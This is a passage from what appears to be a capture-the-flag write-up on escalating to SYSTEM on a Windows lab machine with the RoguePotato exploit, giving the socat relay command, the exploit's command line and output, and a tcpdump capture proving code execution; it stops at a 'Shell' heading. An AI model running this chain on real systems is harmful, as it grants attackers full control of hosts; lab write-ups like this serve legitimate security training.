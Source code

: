     
    root@kali# socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999
    

### Execute POC

To run this, I’ll use the following command line options:

  * `-r 10.10.14.9` \- This is a required option that will identify my host;
  * `-l 9999` \- The port to listen on locally;
  * `-e cmd.exe ping 10.10.14.9` \- The command to run, starting simple.

I’ll run this will `tcpdump` listening for ICMP:

    
    
    PS C:\programdata> .\RoguePotato.exe -r 10.10.14.9 -e "cmd.exe /c ping 10.10.14.9" -l 9999
    [+] Starting RoguePotato...
    [*] Creating Rogue OXID resolver thread
    [*] Creating Pipe Server thread..
    [*] Creating TriggerDCOM thread...
    [*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
    [*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
    [*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
    [*] IStoragetrigger written:102 bytes
    [*] SecurityCallback RPC call
    [*] ServerAlive2 RPC Call
    [*] SecurityCallback RPC call
    [*] ResolveOxid2 RPC call, this is for us!
    [*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
    [*] Client connected!
    [+] Got SYSTEM Token!!!
    [*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: cmd.exe /c ping 10.10.14.9
    [+] RoguePotato gave you the SYSTEM powerz :D
    

At `tcpdump` there are four pings from Remote:

    
    
    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    07:44:15.452881 IP 10.10.10.180 > 10.10.14.9: ICMP echo request, id 1, seq 1, length 40
    07:44:15.452910 IP 10.10.14.9 > 10.10.10.180: ICMP echo reply, id 1, seq 1, length 40
    07:44:16.463541 IP 10.10.10.180 > 10.10.14.9: ICMP echo request, id 1, seq 2, length 40
    07:44:16.463600 IP 10.10.14.9 > 10.10.10.180: ICMP echo reply, id 1, seq 2, length 40
    07:44:17.478859 IP 10.10.10.180 > 10.10.14.9: ICMP echo request, id 1, seq 3, length 40
    07:44:17.478883 IP 10.10.14.9 > 10.10.10.180: ICMP echo reply, id 1, seq 3, length 40
    07:44:18.494758 IP 10.10.10.180 > 10.10.14.9: ICMP echo request, id 1, seq 4, length 40
    07:44:18.494823 IP 10.10.14.9 > 10.10.10.180: ICMP echo reply, id 1, seq 4, length 40
    

### Shell
